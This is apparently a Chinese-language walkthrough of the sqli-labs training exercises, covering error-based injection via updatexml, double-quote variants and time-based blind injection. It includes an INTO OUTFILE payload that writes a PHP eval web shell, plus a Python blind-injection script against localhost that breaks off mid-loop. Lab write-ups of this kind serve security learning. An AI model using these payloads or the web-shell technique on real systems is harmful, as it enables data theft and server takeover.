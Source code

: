 只要`mysql_fetch_array`能正确返回数据，前端就回提示`You are in...........`，可以盲注，但是按照出题人的意思应该是要我们报错注入

> 报错形式: `XPATH syntax error: ' emails,referers,uagents,users'`

`1' and updatexml(1,concat(0x0a,(select database())),1); --+`

+ 出库名`security`

`1' and updatexml(1,concat(0x0a,(select group_concat(table_name) from information_schema.tables where table_schema='security')),1); --+`

+ 出表名`emails,referers,uagents,users`

... 接下来不演示了

### 06-Double injections-Double quotes

闭合`"` 其他同理

`1" and updatexml(1,concat(0x0a,(select database())),1); --+`

### 07-Dump into outfile

`$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";`

闭合单引号 + `((`

`1')) union select 1,"<?php @eval($_POST['cmd1']);?>",3 into outfile '/var/www/html/hack.php';--+`

写入一句话，直接访问即可

### 08-Blind-Boolian-Single Quotes

跑库名的时间盲注脚本(布尔盲注脚本和这个差不多，就不写两种了),同理可以跑其他数据

```python
import time
import requests


def blind_inject(url, loc, mid, comp='>', target='database()'):
    params = {
        'id': f"1' and if(ascii(substr({target},{loc},1)){comp}{mid}, sleep(0.05),0); -- ",
    }
    time_start = time.time()
    req = requests.get(url=url, params=params)
    time_end = time.time()
    if time_end - time_start > 0.03:
        return 1
    else:
        return 0


url = "http://localhost/Less-8/"
res = ""
end = 0
for i in range(1, 1000):
    l = 32
    r = 126
    while l < r:
        mid = (l + r) // 2
        if blind_inject(url, i, mid):
            l = mid + 1
        else:
            r = mid

        # check end
        if l >= r:
            if not blind_inject(url, i, l, '='):
```